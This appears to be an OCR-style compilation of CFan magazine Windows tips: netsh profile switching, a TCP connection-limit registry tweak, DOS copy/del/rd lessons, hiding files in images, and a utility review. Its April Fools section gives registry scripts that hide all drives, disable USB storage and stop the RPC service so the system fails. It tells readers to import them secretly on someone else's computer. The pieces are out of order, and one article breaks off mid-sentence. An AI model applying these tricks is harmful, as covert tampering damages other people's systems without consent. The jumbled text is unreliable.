网关:192.168.0.1
IP:192.168.0.145
家中网络环境:ADSL + 路由共享
(与邻居共享一条ADSL线路上网)
网关:192.168.1.1
IP:192.168.1.2

# 网上谬误 ≠ 解决之道

求助于 Google，广大网友已经习惯于在遇到问题时这样处理。可是 Google 并不是万能的，在出现问题时除了搜索之外，往往还需要独立思考。比如在网上搜索关于这个问题的解决方法时，我们就找到了一种广为流传的谬误版密技。网上说在注册表中修改 [HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services]分支下关于网卡的值就能解决这一问题，相信很多朋友已经想到了可以通过导出注册表分支并按需导入的方法(见图1)，但经我们测试后发现，修改注册表相关键值后需要重新启动才能使新的网络设置生效，并不能“随需应变”。



# netsh 命令 + 批处理

- 第一步：在设置好单位的网络参数后，进入命令行模式(开始→运行→输入 CMD 回车)，输入“netsh -c interface dump >c:\gongsi.txt”(不含引号)。
- 第二步：重新设置网络参数使其符合家中的“ADSL + 路由”的上网环境，完成后在命令行模式中输入“netsh -c interface dump >c:\jia.txt”(不含引号)(见图2)。



- 第三步：用“记事本”在桌面上新建一个批处理文件 gongsi.bat，并在该文件中输入“netsh -f c:\gongsi.txt”保存。另外再新建一个 jia.bat，输入“netsh -f c:\jia.txt”(均不含引号)并保存。
- 第四步：在公司时双击桌面上的 gongsi.bat，而在家时则双击 jia.bat即可。

小提示

在桌面上分别创建这两个BAT文件的快捷方式，右击快捷方式选择“属性”，在其中的“快捷方式”选项卡中的“快捷键”设置一个快捷键，这样就能一键切换网络设置了。

# 双IP双网关





小提示

使用“双IP双网关”的方法如果出现网络程序连接问题，请更换为“netsh命令+批处理”的方式。

# 终极解决之道: Net Profiles

第一步:从 http://www.newhua.com/cfan/200506/netprofilessetup.exe 下载免费的 Net Profiles，安装后运行此程序。





第二步：在软件主界面中点击“Refresh List”按钮，找到目前正在使用的网卡，选中它后单击界面右侧“Profiles”栏中的“New Profile”按钮，新建一个配置方案(见图5)。

第三步：在弹出对话框中为该配置方案命名，如“公司网络”，接着选中该配置方案并在界面下方设置好“IP Address”(IP地址)、“Subnet Mask”(子网掩码)、“Default Gateway”(默认网关)和“DNS”。如果公司的网络还需要设置IE的代理服务器才能上网浏览，则可以单击“More Settings”下的“Internet Explorer”按钮，接着勾选“Use Proxy Settings”(使用代理设置)，在下面的“Server Address”输入代理服务器地址，在“Port”中输入端口号，而下面“Default Homepage”(默认主页)可设置IE的默认首页。完成后单击“OK”按钮返回主界面，最后单击“Save Profile”按钮保存配置。

第四步：按第三步中的方法创建一个家中网络环境的配置方案。接着依次选中两个配置方案并点击“Create Shortcut”按钮，分别为其创建快捷方式(见图6)。

第五步：要切换网络设置时，只要双击桌面上对应的Net Profiles快捷方式即可。

小提示

Net Profiles除上面介绍的功能外，还可以设置网络驱动器映射、默认打印机等，你可以根据需要进行设置。

(咖喱软糖 BCD)

# 正解！XP SP2 连接上限官方修改法

据官方消息称，微软将在近期对 Windows XP 进行强制性升级，将所有未升级至SP2的计算机统一升级至SP2。很多朋友都不愿使用SP2，因为对某些软件不兼容(这个问题已经逐步得以解决)和网络连接上限导致BT等软件下载速度缓慢。

小知识

Windows XP SP2连接上限

微软在开发Windows XP SP2时，刻意增强了其安全性。为了防止一些疯狂连接的蠕虫病毒，SP2默认只允许本机进行10个TCP连接。这样的限制，对于那些需要很多并发连接才能正常工作的软件来说无疑是致命的(比如BT下载)。

网络上流传过很多种解决这一问题的方法，最普遍的是将Tcpip.sys替换为破解连接限制后的版本，可是这种方法非常繁琐，且不便于新手操作。

难道就没有官方的修改方法吗？今天就为大家带来官方的SP2连接上限修改的“正解”：

- 第一步：点击“开始→运行”，在“运行”输入框中输入 regedit.exe 回车，打开“注册表编辑器”。
- 第二步：展开左侧的分支，定位到 [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters]，在右侧窗格空白处右击，在弹出菜单中选择“新建 → D W O R D 值”，新建名为“TcpNumConnections”(不含引号，即连接上限)的DWORD值并将其键值修改为64(十六进制)或100(十进制)。
- 第三步：重新启动计算机，你的TCP连接上限已经变为100了，如果需要更大的连接数请自行更改该值。

## 今天你COPY了吗

### 餐前小点:在图片中隐藏情书

小菜红着脸跑来说：“维克托兄，我想给MM发送情书，又怕被别的MM偷看到，你教我个法子，情书如何不让别的MM看到？”维克托想了想说：“本店正好备有DOS餐前小点，你不妨先尝一尝吧……”

烹饪方法:随便找一个图片文件，本文采用C:\Pictures\s.jpg，情书假设为D:\Documents\b.txt，在命令行方式窗口输入命令:

```
copy /b C:\Pictures\s.jpg+D:\Documents\b.txt C:\Pictures\h.jpg
```

这样就得到了隐藏着情书的合并文件c:\picture\h.jpg。h.jpg文件大小正好等于s.jpg和b.txt的总大小。打开h.jpg，根本无法看出和s.jpg有什么不同。可以使用“记事本”、“写字板”等文本编辑器打开合并后的文件，就能查看隐藏在图片文件尾部的情书了。

### 小提示

- 文件合并时使用参数/b，要隐藏的文件必须放在“+”右侧。
- MP3文件在使用此方法连接后，就能实现连续播放。
- 合并图片/歌曲这样的二进制文件必须使用/b参数(b代表Binary，二进制)，否则合并将会失败;另一个合并参数是/a(a代表ASCII，文本文件)，只能用于纯文本的合并。两参数不能同时使用，二进制方式可以合并文本和二进制文件，而文本方式则只能合并文本。
- 当进行软盘复制时，可在命令中加入“/v”参数，例如:copy /v /b 1.txt + 2.txt 3.txt, 这样可以减少因操作介质(如:软盘)的问题而导致的数据写入失败。

### 本期配料:copy/md

适宜人群:没有DOS基础的初学者

学习目标:学会使用copy命令复制文件/使用md命令创建目录。

### 1.copy命令

copy命令就像一台复印机，将一个或多个文件按原样复制并保存到指定位置(目录)。另外，你还可以直接将输入设备(如:键盘)的输入复制到指定的文件。

目标1:将c:\test.txt文件复制到d:\目录下

```
copy c:\test.txt d:\
```

命令格式:copy 要复制的源文件(包括目录和文件名) 文件复制的目标目录[\文件名]

命令讲解:现在先从copy命令最简单的用法开始，将单个文件从一个目录按原样(包括文件名)复制到另一个目录，如果此操作成功，命令行窗口中会提示“已复制 1 个文件”。在很多情况下，我们要为复制的文件副本赋予一个新的文件名，比如将c:\test.txt文件复制到d:\目录下并重命名为test2.txt:

```
copy c:\test.txt d:\test2.txt
```

问题随之出现了，如果要同时复制一个目录中指定的一组或所有文件，总不能复制一个文件就执行一次copy命令吧? 我们的第2个目标就是批量复制目录中的文件。

目标2:将c:\movies目录中所有文件复制到d:\backup目录中

```
copy c:\movies d:\backup
```

命令格式:copy 要复制的源目录[\*.指定文件扩展名] 要复制到的目标目录 [/y]

### 小菜一碟:备份用户指定的任意格式的文档

适宜人群:有一定DOS基础的用户

菜谱说明:很多办公一族为了满足办公室与家中电脑的数据共享，都会采用些移动存储设备(如:移动硬盘、优盘等)。移动存储设备的可靠性一直不尽如人意，所以经常备份其中的数据是十分必要的。我们在备份时是选择繁琐的手工方式，还是会选择方便的一键备份? 学习了上面的配料用法，就让我们动手试做一道小菜吧。

脚本任务:备份C:\myfolder目录下扩展名为DOC的Word文档到D:\myfolder\word目录

特别说明:“c:\myfolder”及“d:\myfolder\word”分别为备份源目录和目标目录，可根据自己的实际备份需要进行修改。

第一步:打开“记事本”，将下列内容保存为Backup.bat并放置在任意目录:

```
@echo off
if not exist d:\myfolder\nul md d:\myfolder
if not exist d:\myfolder\word\nul md d:\myfolder\word
cd c:\myfolder
cd d:\myfolder\word
copy /v /y c:*.doc d:
```

### 美味大菜:支持参数的备份各式文档

适宜人群:有更好DOS基础的用户

菜谱说明:上面这道小菜让我们能很方便地备份文件扩展名为DOC的Word文档，可是每次要备份其他文件扩展名的文档前都必须替换脚本文件中的文件扩展名和目标目录，下面我们要做一道支持参数备份的美味大菜。

脚本任务:备份任意目录下任意扩展名的文档到指定的目录。

特别说明:该脚本的使用方法为“Backup 要备份的扩展名 备份目标目录”(例如:Backup txt d:\myfolder\text)。

第一步:打开“记事本”，输入下列内容并保存为Backup.bat:

```
@echo off
if {%2} == {} (set mypath2=) else set mypath2=%2
set mypath1=c:\myfolder
copy /v /y %mypath1%\*.%1 %mypath2%
if errorlevel 1 echo 命令格式:backup 文件扩展名 [目标目录]
if errorlevel 1 pause
```

脚本说明:这段代码中的逻辑部分请参考上期的《DOS快餐店(二)》。

第二步:打开“命令行提示符”窗口，用CD命令将当前驱动器和目录改变到Backup.bat批处理脚本文件所在目录。

第三步:假设现在要备份目录C:\myfolder中的Word文档(即*.DOC)到D:\myfolder\word目录，则输入“backup doc d:\myfolder\word”命令即可(不含引号)。如果当前工作驱动器和目录已是D:\myfolder\word，只要输入“backup txt”命令，具有相同效果。

## 系统维护 舍我其谁

就像家中需要常备螺丝刀、钳子、剪刀等维修工具一样，在你的电脑中也需要有相应的系统维护工具，不过要找到一套得心应手的系统维护工具却不容易，这里笔者为大家推荐一款非常专业的系统维护工具软件——System Mechanic Professional，它拥有几十个功能模块，集系统优化、系统维护、垃圾清理、系统修复、系统保护等功能为一体，可以说是全能的系统工具箱。

### System Mechanic Professional小档案

- 软件版本:5.5a
- 软件大小:31235KB
- 软件性质:共享软件
- 适用平台:Windows 9x/2000/XP
- 下载地址:http://www.onlinedown.net/soft/19616.htm

对于System Mechanic Professional(以下简称SMP)这样一款强大的工具来说，很难用一篇文章来完整描述，它具备的系统垃圾清理、重复文件检查、上网记录清除、注册表修复、内存优化等诸多功能，都是大家以前经常接触到的，使用起来也能触类旁通，这里就不再介绍了，本文主要介绍SMP中同类软件不具备的强大功能。

### 系统安全专家

SMP集成了卡巴斯基系列病毒防火墙Kaspersky Anti-Virus Personal和网络防火墙Kaspersky Anti-Hacker，所以在安装时首先会提示卸载系统中已经安装的其他杀毒软件和网络防火墙，如果你习惯于使用系统中已安装的杀毒软件和网络防火墙，则可在安装界面中取消“Antivirus”和“Firewall”选项(见图1)以便取消安装这两个模块。



> ### 小提示
如果选择安装Kaspersky Anti-Virus，则安装后应在托盘图标上单击鼠标右键，选择“Update Anti-Virus Database”进行病毒库升级，以保证杀毒效果。
除杀毒和网络防火墙外，SMP还间谍软件清除工具，在其主程序界面中打开“PROTECT→Eliminate Spyware”模块，点击“Star Spython Wizard”，SMP首先会自动更新下载间谍软件数据库，然后打开向导窗口，单击“Next”按钮后再点击“Scan”即可对系统进行扫描，扫描完毕后，SMP会列出所有发现的间谍软件名称和相关介绍(见图2)，最后单击“Remove”按钮即可自动清除这些间谍软件。



> ### 小提示
SMP在操作上与其他程序有些区别,在打开这些非独立运行的功能模块时,我们不能像其他软件那样直接点击右上角的“x”按钮关闭,那样会关闭整个主程序,正确的方法是点击一下左上角的箭头按钮返回主程序。

### 弹出广告杀手

SMP中有一个单独运行的模块程序System Mechanic Professional PopupStopper，号称弹出广告杀手，可以帮你自动关闭浏览网页时经常出现的弹出式广告窗口。通常情况下，其默认规则能自动封杀大部分的弹出广告窗口，但如果在浏览网页时，遇到没有被封杀的广告窗口出现，则可以右击PopupStopper的系统托盘图标，选择“Add Open Popup for blocking”，在弹出的子菜单中会显示出所有当前打开的IE窗口标题，选择你要封杀的广告窗口，从此以后这个广告窗口就再也不会出现了。

PopupStopper采用的是黑白名单的方式对广告窗口进行过滤，右击其托盘图标，选择“Options”可以打开配置窗口(见图3)，“Black List”黑名单列表中可以分别通过“Popup Titles”广告窗口标题文字和“Ad Servers”广告窗口网址两种方式对广告窗口进行封杀，保证了封杀的准确性和效果，单击“Add”按钮可以添加新的数据，在经过长时间的数据积累后；你可以单击“Export”按钮将配置数据导出，这样下次重装软件时就可以通过“Import”来导入列表数据了。



```
@echo off
cd c:\myfolder
cd d:\myfolder
for %%d in (txt doc xls jpg gif mp3) do if not exist d:\%%d\nul md d:\%%d
for %%f in (txt doc xls jpg gif mp3) do copy /v /y c:\*%%f d:\%%f
```

### 卸载“看不见”的程序

卸载管理工具很多，但SMP在功能上却技高一筹，有自己的独门绝技。打开“CLEAN→Uninstaller Software”功能模块，软件会自动扫描并列出系统中所有的卸载程序，其中前面有绿色标记的表示该程序可以被正常卸载，在其右键菜单中选择“Start selected uninstaller”即可进行卸载。而有红色标记的则表示该软件曾被非正常删除，但卸载信息没有清除，我们只需要选中这些卸载列表项，在其右键菜单中选择“Remove selected item”即可将其卸载信息从列表中清除。

当然，这些基本的卸载功能完全可以在Windows自带的添加删除程序中完成，SMP的拿手好戏是可以卸载系统中的任何应用程序，即使这些软件本身没有卸载程序。单击“Uninstall Program Not Listed”标签按钮，它就会扫描并显示出系统中安装过的所有程序，看下列表，还真有许多软件是在其他卸载软件中“看不见”的，仔细看下，有许多都是系统组件，原来它还可以直接卸载系统组件程序(见图4)。选中要卸载的程序，单击“Next”按钮设置卸载选项，一般取默认设置即可，再次单击“Next”按钮，SMP就会自动找出硬盘和注册表中所有与该软件有关的信息并显示出来，选中所有要清除的磁盘文件和注册表信息，单击“Remove”按钮，从弹出菜单中选择“Remove all marked items in all sections”即可进行自动卸载。



### 给应用程序“搬家”

很多时候，我们希望把安装在系统分区中的应用程序转移到另外的磁盘分区上，但直接移动安装路径中的文件，会导致许多快捷方式不能使用，甚至无法运行程序，使用SMP中的软件重定位功能就可以方便地给应用程序“搬家”。
打开“MAINTAIN→Relocate software”模块，SMP会扫描出系统中已经安装过的所有

### 餐后小点：让copy一次备份多个扩展名的文档

适宜人群:已掌握各条DOS命令的用户

菜谱说明:一次备份一种类型的文件有些不便，如何同时进行多类型文件的备份呢？

脚本任务:将TXT、DOC、XLS、JPG、GIF、MP3扩展名的文件分别备份至目标目录中以相应扩展名命名的目录中(也可添加其他扩展名)。

将下列代码保存为Backup.bat并放置在任意目录，双击Backup.bat文件就可以执行批处理命令备份文档了。

脚本讲解:首先使用for循环语句检测d:当前目录(即刚才用“cd d:\myfolder”设置的d:的当前目录)下是否存在指定扩展名作为目录名的子目录，如果不存在则创建之。然后再次使用for循环让“copy /v /y c:*%%f d:%%f”根据前面括号中的内容(txt doc……)分别执行一遍，每次执行时语句中的“%%f”都将替换为括号中的扩展名(第一次执行时%%f为“txt”，第二次执行时则为“doc”，直到全部执行完)。按文件扩展名作为子目录名分别备份文档(for命令的使用，我们将在今后的DOS快餐店中为大家详细讲解，敬请关注)。

> ### 小提示
★在上文代码的for循环语句的括号内的扩展名可根据实际备份需要自由修改，源目录和目标目录相同。
★要了解copy命令的更多参数，可以在命令行窗口中输入“copy /?”即可(不含引号，替换其中的“copy”可以获得其他命令的用法)。

### DIY你的DOS菜

请按下列要求自己动手写出所需的命令，答案将在下期公布:
1. 在D:\下新建名为“cfan”的目录，然后在其下新建名为“info”的子目录。
2. 试试如何将第1题的两条命令合并为一条。
3. 将D:\cfan下所有扩展名为TXT文件复制到D:\cs下。

(维克托电脑工作室 张宗闻)

### 自启动程序 “警卫”

许多恶意软件都会在我们不知不觉的情况下，在系统中自动添加自启动项目，从而达到控制系统的目的，SMP中的Startup Guard功能，可以给你的系统请个忠实的“警卫”，帮你看住最容易被恶意程序入侵的系统自启动项目。

打开“OPTIMIZE→Manage Windows Startup →Startup Guard”功能模块，首先选中“Enable Startup Guard”选项允许这个“警卫”常驻系统工作，这时你可以在系统托盘中看到一个注册表样式的图标，这说明它已经开始工作了。然后单击“Options”按钮，可以对其参数进行配置，它同样允许使用黑白列表的方式进行控制，不过笔者并不建议使用这种方式，因为许多自启动程序的名称并不固定，如果这里不添加任何数据，那么任何软件在系统中添加自启动程序时，Startup Guard都会在右下角弹出提示警报(见图6)，显示出新增的自启动程序名称以及程序路径，你可以根据这些信息判断是否允许其自动启动，警报对话框中有四个控制选项:Prevent this startup configuration change once(禁止新增自启动程序一次)、Accept this startup configuration change once(允许新增的自启动项目一次)、Always Prevent this startup configuration change (总是禁止这个自启动程序而不出现任何提示)、Always Accept this startup configuration change(自动允许新增该启动程序，同样不会出现任何提示)。



### 恢复数据文件

误删文件、数据丢失是电脑使用过程中经常遇到的问题，SMP提供有专业的数据搜索和恢复工具—— Search and Recover来帮你解决问题，这也是一个单独运行的组件，我们可以直接在开始菜单SMP程序组中打开，也可以在主界面中打开“FIX → Recover Deleted Data”模块来运行。

Search and Recover提供了相当多的数据恢复功能，其中“File Rescue Wizard”采用向导模式，只需要选择文件类型、选择磁盘分区、开始扫描三个简单的步骤就可以帮你恢复被删除的文件，不过它采用的是快速恢复模式，如果你需要更专业的恢复功能，则可以打开“Advanced Deleted File Search”高级恢复模块，在打开的恢复窗口中单击工具栏中的“Search”按钮，选择“New Search”，在选项窗口中可以设置扫描的磁盘分区以及文件属性、大小、类型等扫描条件(见图7)，最后单击“Search”按钮即可，扫描结束后在要恢复的文件上单击鼠标右键，选择“Recover Selected”，并选择保存路径即可将其恢复，注意在恢复时建议选择保存到其他的磁盘分区。





除了针对所有文件的恢复功能外，SMP还提供了针对特殊文件类型的数据恢复功能，“Media Recovery Wizard”可以使用向导模式帮你恢复图片、MP3等多媒体文件，而“Recover Lost E-mail”则可以帮你恢复丢失的电子邮件数据。另外“Emergency Disk Image”模块可以帮你建立磁盘镜像，而“Security Tools”也是一个非常实用的功能，打开后选择“Enable File Terminator”选项，然后就可以在“资源管理器”的右键菜单中选择“Terminate”来彻底删除文件，使用该功能删除的文件不会被数据恢复工具恢复出来，对于机密数据文件可以使用该功能进行删除。

最后还需要告诉大家一个技巧，SMP还具备一项非常实用的自恢复功能，如果我们使用该软件对系统做出了错误的优化和修改，都可以通过该功能进行恢复，打开“OPTIONS→Undo Changes”模块，可以看到所有曾经做过的修改操作(见图8)，然后选中你要恢复的项目后单击“Undo”按钮，在弹出菜单中选择“Selected events”即可进行自动恢复。

### 让硬盘彻底告别1.99GB

打开“我的电脑”，任意选中一个分区右击查看其“属性”，会发现一个奇怪的现象：许多朋友的电脑中存在大量类似于1.99GB、3.93GB之类的分区，然而实际上我们在使用FDISK分区时的初衷并不是这样的，我们希望分区大小是一个整数，例如2GB、4GB等，而且在分区时也明明是按照1GB = 1024MB的公式计算的，例如想分2GB就输入2048MB。实际上在进行分区时，直接使用1GB=1024MB的公式是不正确的，我们只要换个公式就能计算出整数分区的数值了。这里我们把要分区的整数GB设置为“N”，则正确的计算公式应为：(N-1) × 4 + 1024 × N。根据此公式算得的结果单位为MB。例如，想要得到一个2GB的分区，套用公式就应为：(2-1) × 4 + 1024 × 2 = 2052MB。也就是说在FDISK分区时，必须输入2052MB才能得到一个2GB的分区，而通常输入的2048MB当然也就显示为1.99GB了。掌握了这个公式，其他的任何分区大小都可以计算，现在再看看你的硬盘，没有了1.99GB的分区，是不是看起来舒服多了？

## DOS 快餐店[番外篇]

“DOS快餐店”栏目已经连载几期了，大家从对DOS命令一无所知到现在能使用常用DOS命令完成一些实用功能，相信很多朋友都想体验一下在纯DOS环境下的操作。如果你使用的系统是Windows 98，只需启动至纯DOS模式即可，但如果是Windows 2000/XP/2003，要使用纯DOS就不太容易了。为了满足各位食客的需要，小店为大家带来了这款简单易用却功能强大的软件——MaxDOS。

- 1. 带光驱的中文DOS命令行启动模式
- 2. 支持USB，支持长文件名，支持NTFS读
- 3. 加载最少驱动程序的中文DOS命令行模式
- 4. 进入网刻模式，支持常见网卡
- 5. 中文帮助说明 BY MAX-天

# 磁盘清道夫——del 和 rd 的故事

经过连续几期的 DOS 大餐轮番上阵，相信各位客官已经有些饱了，那就由掌柜的我来给大家讲个故事解解闷吧：del 和 rd 是一对兄弟，共同生活在 DOS 小镇里。他们每天的工作很简单——拆除小镇里违章搭建或废弃的小区(目录)，并将小区内的建筑(目录中的文件)也逐一拆除(删除)。

有一天镇长交给他们一个任务：在小镇一个隐蔽的角落里，有人在 “c:\windows” 小区里非法建造了一座叫 “Trojan.exe”(木马)的建筑，并且已经有一些游民入住其中，所以无法将其拆除，两兄弟要做的就是在确保无人在建筑内的情况下将其拆除。

任务说明：Windows 经常会受到一些恶意程序侵害，比如木马程序就会侵入系统，偷走我们的账号和资料。可是当发现木马文件时，往往因为它正在运行而无法查杀，杀毒软件也爱莫能助。所以必须将系统启动到 “MS-DOS 方式”(Windows 9x)或者 “故障恢复控制台”(Windows 2000/XP)下，然后在命令行下删除木马文件。

```
del c:\windows\trojan.exe
```

## 小提示

当面对系统中的顽固文件无法删除时，也可参考上文，启动到 “故障恢复控制台” 后用 del 命令将其删除。

- 本期配料：del/rd
- 适宜人群：没有 DOS 基础的初学者

del 是如何完成文件删除工作的呢？让我们来回顾一下刚才的杀木马过程中 del 命令的基本使用。

### 目标 1：删除 c:\windows\trojan.exe

```
del c:\windows\trojan.exe
```

命令格式：del 要删除的文件路径(如要删除的文件在当前目录下，则无需输入完整路径而只需给出文件名)

命令讲解：del 后直接加上要删除的文件的详细路径，就能删除该文件，如果要删除的文件在当前驱动器的当前目录下，则可省略详细路径而直接用 “del 文件名” 的方式删除文件。

镇长显然对 del 的工作效率不太满意：“你拆除建筑的速度也太慢了，能不能同时几幢一起拆？” 和上一期中我们介绍的 copy 命令一样，del 命令支持使用通配符的批量删除。

### 目标 2：删除 d:\movies 目录下所有扩展名为 RM 的文件

```
del d:\movies\*.rm
```

命令格式：del 要进行批量删除的文件目录\*.扩展名

命令讲解：通配符的使用说明可以参考上一期中本栏目的相关内容。我们还可以通过 “del d:\movies\a.*” 和 “del d:\movies\*.*” 来删除 d:\movie 目录下所有文件主名为 a，但扩展名不限的文件或者所有文件(见图1)。



del 在听取镇长意见改进了拆楼速度后，却发现拆错了几幢楼，这回又得挨骂了。有什么方法可以在删除文件时再进行一次确认，以防止误操作带来的数据丢失？

### 目标 3：删除 d:\games\*.*，每个文件在被删除时都需要确认

```
del /p d:\games\*.*
```

命令格式：del /p 要进行批量删除的目录及文件名

命令讲解：在使用了这个参数后，当文件在删除前便会提示 “文件名，要删除(Y/N)吗？”

拆除工作仍在紧张地进行当中，可是 del 却发现接着要拆除的建筑上分别贴着 “只读”、“系统”、“隐藏” 的标签(见图2)，这样的建筑是否能拆呢？使用 del 命令删除普通文件时可以不加任何附加参数，但是如果要删除的文件含有以上三种属性之一或同时具备这几种属性，那么在删除时就必须使用其他参数。

### 目标 4：删除 c:\windows\sys.dll，假设该文件属性为 “系统”、“只读”



```
del c:\windows\sys.dll /a rs
```

命令格式:del 文件名(如果不在当前目录则给出完整路径，下文中的例子中皆为此形式) /a[r][s][h][a]

命令讲解:/a 表示指定要删除的文件的属性(“a”即“attributes”，意为“属性”)。在/a后指定具体的文件属性，可选的有r(只读)、s(系统)、h(隐藏)、a(存档)。

## 小提示

★当只需删除只读文件时，也可以用另一种参数/f，如删除c:\windows下的只读文件game.log，则可用命令“del c:\windows\game.log /f”(不含引号)。

★在/a参数后的属性中，我们可以使用“-”作为“否”的前缀，如“del d:\movies\*.* /a-s”即表示删除d:\movies目录下的所有非系统属性的文件。

有一个连锁超市倒闭了，小区里有好几家这种超市，del 奉命拆除这些超市废弃的房屋来支持绿化建设，如果能一下子拆除小区中所有这种超市的房屋该有多方便，同样在 Windows 中我们经常需要删除一个目录下所有指定文件名的文件(包括子目录中)，这时应该试试 /s。

### 目标5:删除 c:\windows\web 目录下所有扩展名为 HTT 的文件

```
del c:\windows\web\*.htt /s
```

命令格式:del 文件名 /s

命令讲解:使用 /s 参数后，del 命令就会在指定目录(如未指定则在当前目录)及其子目录中搜索所有指定文件名的文件并删除。

## 小提示

“此法配合注册表的修改可用于清除‘欢乐时光’病毒，但需要加上参数 /arsh。

当在拆除一个小区中所有建筑时，都得到镇长那儿打一下报告(要谨慎嘛)，十分麻烦。在使用如“del d:\*.*”之类的删除目录中所有文件的命令时，都会提示‘是否确认(Y/N)?’。”

### 目标6:删除 d:\movies\*.*，并且无须确认

```
del d:\movies\*.* /q
```

命令格式:del 文件名 /q

命令讲解:/q 称为“安静模式”，即在删除整个目录文件时不进行提示。在使用此参数时要小心，因为如果误打了命令，我们连最后一个挽回的机会都没有了(见图3)。



和 del 的工作比起来，rd 的工作显然轻松得多。在 del 将小区内的所有建筑拆除之后，rd 负责拆除小区的外墙。

### 目标7:删除 d:\movies 目录

```
rd d:\movies
```

命令格式:rd 目录名(如果该目录在当前目录下，则无需输入完整路径，下文中的例子皆为此形式)

命令讲解：rd 仅指定要删除的目录，而不加任何参数仅能删除空目录(即目录中无任何文件)。如果目录中有文件，则会提示错误(见图4)。



镇长对 rd 近乎偷懒的工作态度再也无法容忍了：“你弟弟 del 这么辛苦，为什么你在拆除小区的时候不能帮着拆除建筑呢？”

### 目标8:删除 d:\movies 目录及其下的文件、子目录

```
rd d:\movies /s
```

命令格式:rd 目录名

命令讲解:在使用此参数时，系统也会提示确认以防误删除。同样地，rd 也支持 /q 参数的“安静模式”，如“rd d:\movies /s/q”。/s 和 /q 参数同样也仅在 Windows 2000/XP/2003 中才被支持。

## 本期脚本套餐:删除系统临时文件

适宜人群: 初 / 中级用户
针对 Windows 2000/XP/2003 的版本:
```
@echo off
del %temp%\*.* /s/q
```
针对 Windows 9x 的版本:
```
@echo off
deltree /y %temp%
md %temp%
```
脚本讲解:在Windows 2000/XP/2003中，系统变量“%temp%”代表“Documents and Settings”目录下当前用户的临时文件存储目录(见图5);而在Windows 9x中，该系统变量则表示Windows目录下的Temp目录。由于Windows 9x不支持rd命令，所以就必须使用deltree命令删除整个临时文件目录及其下所有文件，然后再用md命令重建该目录。



## 小提示

将删除临时文件的脚本放在启动组中，即可实现每次启动都清空临时文件的功能。

（掌柜的）

# 整人宝典之愚人节诱惑

每年总有那么一天，整人无罪，恶作剧有理。而今年4月1日，你是选择愚人，还是选择被愚？在仔细阅读了此宝典后，在朋友的电脑上 “露一手”，或是设计一个 “英雄救美” 的场景，你将成为朋友们争相请客的对象……

特别声明：本文中的所有例子仅供愚人节开玩笑使用，切勿用于其他不良用途。

## 硬盘消失了

惊人程度：★★★★☆
破坏力：▲▲▲△△
适用平台：Windows 98/2000/XP/2003
* 本文中的注册表脚本，如果在 Windows 98 中使用，需要将第一行的 “Windows Registry Editor Version 5.00” 修改为 “REGEDIT4”。
效果：让对方磁盘分区在系统中消失。试想你的朋友在启动系统进入桌面后，打开 “资源管理器”，却惊奇地发现所有磁盘分区统统不见踪影(见图)，会是一种什么样的感受？



### 搞怪方法：

第一步：打开 “记事本”，输入以下内容并保存为 disk.reg 文件：

```
Windows Registry Editor Version 5.00
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer]
"Nodrives"=dword:ffffffff
```

第二步：用软盘、闪存盘或 “网上邻居” 等方式将 disk.reg 文件复制到对方的硬盘中，然后双击导入，重启后分区即被隐藏。

### 解救方法：

在被隐藏分区的系统中打开 “注册表编辑器”(通过运行 regedit.exe)，找到 [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer]，在右侧窗格中删除 Nodrives 键值，重启即可。

## USB 设备失效了

惊人程度：★★★☆☆
破坏力：▲▲▲△△
适用平台：Windows 2000/XP/2003
效果：大家都知道，在 Windows 2000/XP/2003 中，USB 设备(如闪存盘等)可以即插即用，无须安装驱动。现在，我们要达到的效果就是当对方插上闪存盘等 USB 设备时，系统虽然能正常识别(USB 设备指示灯也闪烁)，但在 “资源管理器” 和系统托盘区就是找不到 USB 图标，导致对方无法正常使用 USB 设备。

### 搞怪方法：

第一步：打开 “记事本”，输入以下内容并保存为 NoUSB.REG：

```
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\usbstor]
"Start"=dword:00000004
```

第二步：趁对方不在或不注意时，将该注册表文件复制到他的电脑中，然后双击导入注册表。按 F5 刷新一下，使设置生效。

### 解救方法：

打开 “注册表编辑器”，找到上述分支，在右侧窗格中将 “Start” 的值由 “4” 修改为 “3” 即可。

## 系统就要瘫痪了

惊人程度：★★★★★
破坏力：▲▲▲△△
适用平台：Windows 2000/XP/2003
效果：刚才系统还好好的，转眼间已经到了崩溃的边缘，难道中了 “冲击波”？
搞怪方法：在对方电脑中直接操作，打开 “注册表编辑器”，找到 [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\RpcSs]，在右侧窗格中双击 “Start”，将该键值修改为 “4”(不含引号)。
在对方重启后，RPC 服务就被停止了，系统便开始出现各种奇怪的故障。

### 解救方法：

打开 “注册表编辑器”，将 [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\RpcSs]，将 “Start” 的键值修改回 “2”(不含引号)后重新启动电脑，一切恢复正常。

## 电脑就这样完蛋了

惊人程度：★★★★★
破坏力：▲▲▲△△
适用平台：Windows 98/2000/XP/2003
效果：进入操作系统后，桌面上会弹出 “HI,愚人节快乐”、“我就是爱你，不喜欢我就关掉我吧(如果你聪明的话)” 等提示框，你关掉一个接着又会弹出一个，怎么关也关不完，直到把对方 “累死”。

### 搞怪方法：

第一步：下载 http://www.newhua.com/cfan/200507/yrjzz.rar，解压后将其中的 yrjzz.htm 复制到对方机器的任意目录下。
* 以下步骤皆在对方机器上进行，假设对方系统为 Windows XP。

第二步：在桌面空白处右击，选择 “属性”；然后在弹出的 “显示属性” 窗口选择 “桌面” 选项卡，点击 “背景” 列表右侧的 “浏览” 按钮，选择刚才复制到硬盘中的 yrjzz.htm，将这个文件设置为桌面。

### 解救方法：

点击 “开始→设置→控制面板”，双击 “显示”，将桌面背景设置为其他图片或 “无”，重启后即可。

(乔珊)

E-mail:cf_hdb@cfan.com.cn

# 电脑爱好者

系统应用·软件

# 让 Foobar2000 转换 MP3 不再“卡”机

自从有了Foobar2000，我就再没用过 Winamp。原因是我已经爱上了Foobar强大的功能和他那朴素的界面，还有一大原因是——Foobar强大的音乐转换功能(Foobar2000增强版适用，否则请先安装 Lame 插件)。

有一次在利用Foobar2000将整批 APE 文件转换 MP3时，我发现一个相当棘手的问题，就是 CPU 占用率过高，根本无法同时进行其他操作。经过一番摸索之后，发现了三个解决办法。不敢独享，写出来以飨读者。

